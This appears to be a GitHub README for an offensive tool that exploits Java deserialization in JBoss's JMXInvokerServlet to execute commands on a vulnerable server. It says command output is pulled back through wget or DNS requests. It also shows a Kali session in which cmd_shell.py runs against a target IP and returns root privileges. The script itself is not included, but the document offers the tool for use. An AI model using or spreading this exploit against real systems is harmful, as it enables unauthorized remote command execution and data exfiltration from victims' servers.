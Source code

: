 # JMXInvokerServlet-exec
JMXInvokerServlet serialized objects command execution

full credit and details at the following link:

https://github.com/frohoff/ysoserial

http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/

this script lets you execute and retrieve commands output (through wget or dns requests) from a vulnerable target like in a shell.

```shell
root@kali:~/script/JMXInvokerServlet-exec/wget# python cmd_shell.py 192.168.1.20 
$> id
uid=0(root) gid=0(root) groups=0(root)

$> exit
Bye!
```

